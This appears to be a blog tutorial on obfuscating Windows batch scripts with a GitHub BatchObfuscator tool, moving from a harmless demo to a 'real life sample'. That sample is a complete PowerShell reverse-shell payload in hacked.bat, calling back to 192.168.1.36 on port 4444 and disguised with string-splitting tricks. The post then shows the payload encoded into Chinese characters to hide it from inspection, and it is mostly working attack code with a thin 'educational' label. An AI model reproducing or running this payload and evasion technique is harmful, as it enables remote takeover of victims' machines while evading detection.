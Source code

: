 ```yaml
---
title:  "Batch Obfuscation"
categories: [jekyll]
#tags: [jekyll]
---
```


Hi! We are talking about Batch Obfuscation.

As we know Batch Obfuscation techniques, hackers always using encrypt or hiding their malicious code. We will getting deeply this techniques and talking about Batch Obfuscation.

## What We Need?
Firstly, we need a windows machine for using Batch Obfuscation and secondly we need Batch Obfuscator Framework. İf you don't have a any Batch Obfuscator tool or framework. You can install this resource on your windows machine. It will change every words to Chines words.

``` ruby
https://github.com/BiggerDABOSS/BatchObfuscator
```
If you clone this repository then we can ready to use. Let's test BatchObbuscator!
I want to try on simple batch code. I am creating test.bat file and write this sample code

``` ruby
@echo off
title this is your first batch script.
echo Welcome to batch scripting.
pause
```
Open up a new CMD console, then you can use like this.

``` ruby
C:\Users\furka\Desktop\batchwrite\BatchObfuscator-master>test.bat
Welcome to batch scripting.
Press any key to continue . . .
The batch file cannot be found.

C:\Users\furka\Desktop\batchwrite\BatchObfuscator-master>
```
Let's test what changes in our content using Batch Obfuscator

``` ruby
C:\Users\furka\Desktop\batchwrite\BatchObfuscator-master>obfuscator.cmd test.bat
Input Length = 14
Output Length = 8
CertUtil: -decode command completed successfully.
testo.bat
test.bat
        1 file(s) copied.
```

If we open new "testo.bat" file with any text editor, we can see Chinese characters!

```ruby
挦獬਍敀档⁯景൦琊瑩敬琠楨⁳獩礠畯⁲楦獲⁴慢捴捳楲瑰മ攊档⁯敗捬浯⁥潴戠瑡档猠牣灩楴杮മ瀊畡敳
```

### Running "testo.bat" in CMD

```ruby
C:\Users\furka\Desktop\batchwrite\BatchObfuscator-master>testo.bat
```


```ruby
Welcome to batch scripting.
Press any key to continue . . .

```

We can see the same output. That's meaning, Batch Obfuscator is running excellent!

### Real Life Sample

We're see on this sample, Batch Obfuscator tool just chancing every characters to Chinese characters. But nothing chanced on running time.
Then we can say, if I can use for a malicious code nothing will be happened. Let's try and see what happening.
I will use Kali Linux for creating a malicious code. You can create it any way you want. 'Please Just Use For Educational Purpose!'

I' m create malicious code and giving name to 'hacked.bat' then getting reverse shell on CMD. I'm listening on 4444 port.

### hacked.bat

```ruby

cMD.EXe/C"SET  swx=Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient("192.168.1.36",4444));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535^|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2^>^&1 ^| Out-String );Set-Variable -Name sendback2 -Value ($sendback + "PS " + (pwd).Path + "^> ");Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()&& C:\windOws\sySWoW64\WINDOwsPowERSHelL\v1.0\PoWerShEll.EXe     ^&  ( 'Sv'  )  (\"{1}{0}\"-f 'Y3','4' ) (  [tyPE](\"{0}{3}{1}{2}\" -f'eNv','ME','Nt','iroN')   )    ;   (   (  ^&  (  \"{0}{2}{1}\"-f 'c','ItEM','hiLD' )  ( \"{1}{0}{3}{2}\" -f 'BLe','Varia','y3',':4')  ).\"Va`lUe\"::( \"{4}{5}{3}{0}{2}{1}\"-f 'Ia','E','bl','EnvIroNmEntvAR','ge','t'  ).Invoke(  'SWx',(  \"{0}{1}{2}\" -f'Pr','O','cEss'  ))  )^| ^& (   ${ShEL`lId}[1] +${Sh`EL`lID}[13]  + 'x')"

```

Now we can test on 'hacked.bat'. Here is the results:

```ruby
C:\Users\furka\Desktop\batchwrite\BatchObfuscator-master>obfuscator.cmd hacked.bat
Input Length = 14
Output Length = 8
CertUtil: -decode command completed successfully.
hackedo.bat
hacked.bat
        1 file(s) copied.
```

Name is changeced to 'hackedo.bat'. Let's open the file with any text editor.

### hackedo.bat

```ruby
挦獬਍䵣⹄塅⽥≃䕓⁔猠硷匽瑥嘭牡慩汢⁥中浡⁥汣敩瑮ⴠ慖畬⁥丨睥伭橢捥⁴祓瑳浥丮瑥匮捯敫獴吮偃汃敩瑮∨㤱⸲㘱⸸⸱㘳Ⱒ㐴㐴⤩医瑥嘭牡慩汢⁥中浡⁥瑳敲浡ⴠ慖畬⁥␨汣敩瑮䜮瑥瑓敲浡⤨㬩扛瑹孥嵝戤瑹獥㴠〠⸮㔶㌵帵╼ほ㭽桷汩⡥匨瑥嘭牡慩汢⁥中浡⁥嘭污敵⠠猤牴慥⹭敒摡␨祢整ⱳ〠戤瑹獥䰮湥瑧⥨⤩ⴠ敮〠笩医瑥嘭牡慩汢⁥中浡⁥慤慴ⴠ慖畬⁥⠨敎⵷扏敪瑣ⴠ祔数慎敭匠獹整⹭敔瑸䄮䍓䥉湅潣楤杮⸩敇却牴湩⡧戤瑹獥〬椤⤩医瑥嘭牡慩汢⁥中浡⁥敳摮慢正ⴠ慖畬⁥椨硥␠慤慴㈠㹞♞‱籞传瑵匭牴湩㬩敓⵴慖楲扡敬ⴠ慎敭猠湥扤捡㉫ⴠ慖畬⁥␨敳摮慢正⬠∠卐∠⬠⠠睰⥤倮瑡帢‾⤢医瑥嘭牡慩汢⁥中浡⁥敳摮祢整ⴠ慖畬⁥⠨瑛硥⹴湥潣楤杮㩝䄺䍓䥉⸩敇䉴瑹獥␨敳摮慢正⤲㬩猤牴慥⹭牗瑩⡥猤湥扤瑹ⱥⰰ猤湥扤瑹⹥敌杮桴㬩猤牴慥⹭汆獵⡨紩␻汣敩瑮䌮潬敳⤨☦䌠尺楷摮睏屳祳坓坯㐶坜义佄獷潐䕷卒效䱬癜⸱尰潐敗卲䕨汬䔮敘††帠…⠠✠癓‧⤠†尨笢紱ほ屽ⴢ大✳✬✴⤠⠠†瑛偹嵅尨笢細㍻筽紱㉻屽•昭攧癎Ⱗ䴧❅✬瑎Ⱗ椧潲❎††㬠†⠠†⠠†♞†尠笢細㉻筽紱≜昭✠❣✬瑉䵅Ⱗ栧䱩❄⤠†≜ㅻ筽細㍻筽紲≜ⴠ䈧敌Ⱗ嘧牡慩Ⱗ礧✳✬㐺⤧†⸩≜慖池敕≜㨺≜㑻筽紵㍻筽細㉻筽紱≜昭✠慉Ⱗ䔧Ⱗ戧❬✬湅䥶潲济湅癴剁Ⱗ朧❥✬❴†⸩湉潶敫✠坓❸⠬†≜ほ筽紱㉻屽•昭倧❲✬❏✬䕣獳‧⤠⤠籞帠…†笤桓䱅池摉孽崱⬠笤桓䕠恌䥬組ㅛ崳†砧⤧•††††††††††††††††††††††††††††††††††††††††
```

We are see the Chinese characters. If I run the 'hacked.bat' I can get a reverse shell on CMD.

Thanks for reading, I hope you learned something.